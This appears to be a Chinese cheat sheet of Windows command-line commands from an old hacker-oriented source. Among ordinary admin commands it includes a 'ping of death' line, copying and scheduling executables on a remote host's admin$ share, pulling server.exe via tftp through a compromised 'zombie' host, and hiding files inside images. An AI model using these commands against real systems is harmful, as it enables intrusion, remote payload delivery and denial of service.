 - netstat -v 查看正在进行的工作
- netstat -p 协议名 例：netstat -p tcq/ip 查看某协议使用情况
- netstat -s 查看正在使用的所有协议使用情况
- nbtstat -A ip 对方136到139其中一个端口开了的话，就可查看对方最近登陆的用户名
- tracert -参数 ip(或计算机名) 跟踪路由（数据包），参数：“-w数字”用于设置超时间隔。
- ping ip(或域名) 向对方主机发送默认大小为32字节的数据，参数：“-l[空格]数据包大小”；“-n发送数据次数”；“-t”指一直ping。
- ping -t -l 65550 ip 死亡之ping(发送大于64K的文件并一直ping就成了死亡之ping)
- ipconfig (winipcfg) 用于windows NT及XP(windows 95 98)查看本地ip地址，ipconfig可用参数“/all”显示全部配置信息
- tlist -t 以树行列表显示进程(为系统的附加工具，默认是没有安装的，在安装目录的Support/tools文件夹内)
- kill -F 进程名 加-F参数后强制结束某进程(为系统的附加工具，默认是没有安装的，在安装目录的Support/tools文件夹内)
- del -F 文件名 加-F参数后就可删除只读文件,/AR、/AH、/AS、/AA分别表示删除只读、隐藏、系统、存档文件，/A-R、/A-H、/A-S、/A-A表示删除除只读、隐藏、系统、存档以外的文件。例如“DEL/AR *.*”表示删除当前目录下所有只读文件，“DEL/A-S *.*”表示删除当前目录下除系统文件以外的所有文件
- del /S /Q 目录 或用：rmdir /s /Q 目录 /S删除目录及目录下的所有子目录和文件。同时使用参数/Q 可取消删除操作时的系统确认就直接删除。（二个命令作用相同）
- move 盘符路径要移动的文件名　存放移动文件的路径移动后文件名 移动文件,用参数/y将取消确认移动目录存在相同文件的提示就直接覆盖
- fc one.txt two.txt > 3st.txt 对比二个文件并把不同之处输出到3st.txt文件中，"> "和"> >" 是重定向命令
- at id号 开启已注册的某个计划任务
- at /delete 停止所有计划任务，用参数/yes则不需要确认就直接停止
- at id号 /delete 停止某个已注册的计划任务
- at 查看所有的计划任务
- at ip time 程序名(或一个命令) /r 在某时间运行对方某程序并重新启动计算机
- finger username @host 查看最近有哪些用户登陆
- telnet ip 端口 远和登陆服务器,默认端口为23
- open ip 连接到IP（属telnet登陆后的命令）
- telnet 在本机上直接键入telnet 将进入本机的telnet
- copy 路径文件名1　路径文件名2 /y 复制文件1到指定的目录为文件2，用参数/y就同时取消确认你要改写一份现存目录文件
- copy c:srv.exe ipadmin$ 复制本地c:srv.exe到对方的admin下
- copy 1st.jpg/b+2st.txt/a 3st.jpg 将2st.txt的内容藏身到1st.jpg中生成3st.jpg新的文件，注：2st.txt文件头要空三排，参数：/b指二进制文件，/a指ASCLL格式文件
- copy ipadmin$svv.exe c: 或:copyipadmin$*.* 复制对方admini$共享下的srv.exe文件（所有文件）至本地C：
- xcopy 要复制的文件或目录树　目标地址目录名 复制文件和目录树，用参数/Y将不提示覆盖相同文件
- 用参数/e才可连目录下的子目录一起复制到目标地址下。
- tftp -i 自己IP(用肉机作跳板时这用肉机IP) get server.exec:server.exe 登陆后，将“IP”的server.exe下载到目标主机c:server.exe 参数：-i指以二进制模式传送，如传送exe文件时用，如不加-i 则以ASCII模式（传送文本文件模式）进行传送
- tftp -i 对方IP　put c:server.exe 登陆后，上传本地c:server.exe至主机
- ftp ip 端口 用于上传文件至服务器或进行文件操作，默认端口为21。bin指用二进制方式传送（可执行文件进）；默认为ASCII格式传送(文本文件时)
- route print 显示出IP路由，将主要显示网络地址Network addres，子网掩码Netmask，网关地址Gateway addres，接口地址Interface
- arp 查看和处理ARP缓存，ARP是名字解析的意思，负责把一个IP解析成一个物理性的MAC地址。arp -a将显示出全部信息
- start 程序名或命令 /max 或/min 新开一个新窗口并最大化（最小化）运行某程序或命令
- mem 查看cpu使用情况
- attrib 文件名(目录名) 查看某文件（目录）的属性
- attrib 文件名 -A -R -S -H 或 +A +R +S +H 去掉(添加)某文件的 存档，只读，系统，隐藏 属性；用+则是添加为某属性
- dir 查看文件，参数：/Q显示文件及目录属系统哪个用户，/T:C显示文件创建时间，/T:A显示文件上次被访问时间，/T:W上次被修改时间
- date /t 、 time /t 使用此参数即“DATE/T”、“TIME/T”将只显示当前日期和时间，而不必输入新日期和时间
- set 指定环境变量名称=要指派给变量的字符 设置环境变量
- set 显示当前所有的环境变量
- set p(或其它字符) 显示出当前以字符p(或其它字符)开头的所有环境变量
- pause 暂停批处理程序，并显示出：请按任意键继续....
- if 在批处理程序中执行条件处理（更多说明见if命令及变量）
- goto 标签 将cmd.exe导向到批处理程序中带标签的行（标签必须单独一行，且以冒号打头，例如：“：start”标签）
- call 路径批处理文件名 从批处理程序中调用另一个批处理程序 （更多说明见call /?）
- for 对一组文件中的每一个文件执行某个特定命令（更多说明见for命令及变量）
- echo on或off 打开或关闭echo，仅用echo不加参数则显示当前echo设置
- echo 信息 在屏幕上显示出信息
- echo 信息 >> pass.txt 将"信息"保存到pass.txt文件中
- findstr "Hello" aa.txt 在aa.txt文件中寻找字符串hello
- find 文件名 查找某文件
- title 标题名字 更改CMD窗口标题名字
- color 颜色值 设置cmd控制台前景和背景颜色；0=黑、1=蓝、2=绿、3=浅绿、4=红、5=紫、6=黄、7=白、8=灰、9=淡蓝、A=淡绿、B=淡浅绿、C=淡红、D=淡紫、E=淡黄、F=亮白
- prompt 名称 更改cmd.exe的显示的命令提示符(把C:、D:统一改为：EntSky )
- ver 在DOS窗口下显示版本信息 
- winver 弹出一个窗口显示版本信息（内存大小、系统版本、补丁版本、计算机名）
- format 盘符 /FS:类型 格式化磁盘,类型:FAT、FAT32、NTFS ,例：Format D: /FS:NTFS
- md　目录名 创建目录